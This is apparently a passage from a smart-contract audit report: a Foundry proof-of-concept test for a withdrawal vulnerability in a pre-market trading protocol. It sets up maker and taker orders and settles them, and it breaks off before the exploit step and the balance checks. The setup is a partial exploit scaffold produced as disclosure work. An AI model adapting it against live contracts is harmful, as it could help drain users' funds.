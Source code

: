These bugs have been reported already as part of other issues, but in order to make this PoC work, they had to be fixed temporarily.

<br>

```javascript
function test_withdraw_vulnerability() public {
    // ~~~~~~~~~~~~~~~~~~~~ Setup ~~~~~~~~~~~~~~~~~~~~
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    uint256 MAKER_POINTS = 1000;
    uint256 TAKER_POINTS = 500;
    uint256 TOKEN_AMOUNT = 100 * 1e18;
    uint256 TOKENS_PER_POINT = 1e18; // 1 for 1
    uint256 INITIAL_BALANCE = 100_000 * 1e18;

    deal(address(mockUSDCToken), alice, INITIAL_BALANCE);
    deal(address(mockUSDCToken), bob, INITIAL_BALANCE);

    console.log(
        "- Alice's userTokenBalance before coming into the protocol: %18e",
        tokenManager.userTokenBalanceMap(alice, address(mockUSDCToken), TokenBalanceType.SalesRevenue)
    );
    console.log("- Alice's actual balance before coming into the protocol: %18e", mockUSDCToken.balanceOf(alice));
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    // ~~~~~~~~~~ 1) Create a maker offer ~~~~~~~~~~
    vm.startPrank(alice);
    mockUSDCToken.approve(address(tokenManager), type(uint256).max);
    preMarktes.createMaker(
        CreateMakerParams(
            marketPlace,
            address(mockUSDCToken),
            MAKER_POINTS,
            TOKEN_AMOUNT,
            10_000 * 1.2, // 120% collateral rate
            10_000 * 0.03, // 3% trade tax
            OfferType.Ask,
            OfferSettleType.Turbo
        )
    );
    address offerAddr = GenerateAddress.generateOfferAddress(0);
    (,,, OfferStatus status,,,,,,,,,,) = preMarktes.offerInfoMap(offerAddr);
    require(status == OfferStatus.Virgin, "Maker offer not created successfully");
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    // ~~~~~~~~~~ 2) Create a taker order  ~~~~~~~~~~
    vm.startPrank(bob);
    mockUSDCToken.approve(address(tokenManager), type(uint256).max);
    preMarktes.createTaker(offerAddr, TAKER_POINTS);
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    // ~~~~~~~~~~ 3) Settle the offer ~~~~~~~~~~
    vm.startPrank(user1); // user1 == admin
    systemConfig.updateMarket("Backpack", address(mockUSDCToken), TOKENS_PER_POINT, block.timestamp - 1, 3600);

    vm.startPrank(alice);
    deliveryPlace.settleAskMaker(offerAddr, TAKER_POINTS);
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    // ~~~~~~~~~~ 4) Check initial balances ~~~~~~~~~~
    uint256 initialUserTokenBalance =
```